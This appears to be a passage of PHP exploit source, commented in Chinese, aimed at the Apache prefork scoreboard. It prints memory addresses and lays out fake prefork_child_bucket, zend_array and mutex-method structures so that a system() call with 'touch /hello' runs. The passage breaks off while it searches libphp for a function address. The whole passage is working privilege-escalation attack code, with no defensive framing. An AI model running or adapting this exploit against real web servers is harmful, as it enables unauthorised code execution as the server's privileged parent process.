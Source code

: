 ```
echo "PID: ".getmypid()."\n";

$parent_struct_addr = locate_self_parent_struct_addr();
if($parent_struct_addr == 0){
	die("get self parent struct addr error\n");
}
echo "self parent struct addr:0x".dechex($parent_struct_addr)."\n";

$parent_arr_addr = locate_parent_arr_addr();
if($parent_arr_addr){
	echo "parent arr addr:0x".dechex($parent_arr_addr)."\n";
}

$all_buckets_addr = locate_all_buckets_addr();
if($all_buckets_addr == 0){
	die("get all_buckets addr error\n");
}
echo "all_buckets addr:0x".dechex($all_buckets_addr)."\n";

$evil_parent_start_addr = $parent_arr_addr + 0x24 * 10;//(我这里的parent 就是 prefork_child_bucket结构，0x24是每个prefork_child_bucket的大小，10参考http-mpm.conf中prefork的MaxSpareServers)

echo "evil prefork_child_bucket start addr:0x".dechex($evil_parent_start_addr)."\n";

//我们需要将prefork_child_bucket与zend_object结合，使其包含zend_object 的 properties字段,因此prefork_child_bucket的"大小"是40+16字节
$evil_parent_end_addr = $evil_parent_start_addr + 40+16;
echo "evil prefork_child_bucket end addr:0x".dechex($evil_parent_end_addr)."\n";

//将apr_proc_mutex_t结构与zend_array结构结合为一个结构
$evil_zend_array_start_addr = $evil_parent_end_addr;
echo "evil zend_array start addr:0x".dechex($evil_zend_array_start_addr)."\n";

$evil_zend_array_end_addr = $evil_zend_array_start_addr + 0x38;
echo "evil zend_array end addr:0x".dechex($evil_zend_array_end_addr)."\n";

//apr_proc_mutex_unix_lock_methods_t结构
$evil_mutex_methods_start_addr = $evil_zend_array_end_addr;
$evil_mutex_methods_end_addr = $evil_mutex_methods_start_addr + 0x50;

echo "evil mutex_methods start addr:0x".dechex($evil_mutex_methods_start_addr)."\n";
echo "evil mutex_methods end addr:0x".dechex($evil_mutex_methods_end_addr)."\n";

//system()中的字符串

$evil_string = "touch /hello";
$evil_string_len = strlen($evil_string)+1;//\0结尾

if($evil_string_len%8){//对齐
	$evil_string_len = ((int)($evil_string_len/8)+1)*8;
}
echo "evil string: ".$evil_string." len:".$evil_string_len."\n";

$evil_string_start_addr = $evil_mutex_methods_end_addr;
$evil_string_end_addr = $evil_string_start_addr + $evil_string_len;

echo "evil string start addr:0x".dechex($evil_string_start_addr)."\n";
echo "evil string end addr:0x".dechex($evil_string_end_addr)."\n";

//查找zend_object_std_dtor的地址(我的在libphp7.so)
$zend_object_std_dtor_addr = 0;
$libphp_region = get_mem_region("libphp");
if(!count($libphp_region)){
```